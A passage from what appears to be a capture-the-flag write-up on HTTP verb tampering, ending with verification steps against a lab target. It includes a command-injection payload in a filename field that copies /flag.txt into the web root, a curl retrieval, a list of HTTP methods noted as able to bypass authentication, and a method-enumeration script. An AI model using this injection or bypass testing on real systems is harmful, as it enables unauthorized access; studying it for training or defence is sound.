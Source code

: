 **4. Verification**
```bash
# Check if flag.txt was copied to web directory
curl http://94.237.57.115:43846/flag.txt

# Should display the flag content
```

**Alternative Burp Method:**
1. Intercept POST request with payload: `filename=file; cp /flag.txt ./`
2. Right-click → "Change Request Method" → Convert to GET
3. Forward request
4. Access `http://94.237.57.115:43846/flag.txt` to retrieve flag

---

## Common HTTP Methods for Testing

### Standard Methods
```bash
GET     # Default - usually protected
POST    # Form submissions - usually protected  
HEAD    # Like GET but no body - often bypasses auth
PUT     # Upload/update - may bypass filters
DELETE  # Remove resources - may bypass restrictions
PATCH   # Partial updates - often overlooked
OPTIONS # Method enumeration - usually allowed
```

### Extended Methods
```bash
TRACE   # Debugging method - may reveal headers
CONNECT # Proxy method - rarely filtered
TRACK   # Microsoft extension - may bypass
COPY    # WebDAV method - may access resources
MOVE    # WebDAV method - may modify resources
LOCK    # WebDAV method - may control resources
```

---

## Automated Testing

### Custom Script for Method Testing
```bash
#!/bin/bash
# http-verb-test.sh

URL="$1"
METHODS=("GET" "POST" "HEAD" "PUT" "DELETE" "PATCH" "OPTIONS" "TRACE")

echo "Testing HTTP methods on: $URL"
echo "================================"

for method in "${METHODS[@]}"; do
    echo -n "Testing $method: "
    response=$(curl -s -o /dev/null -w "%{http_code}" -X "$method" "$URL")
    echo "HTTP $response"
done
```
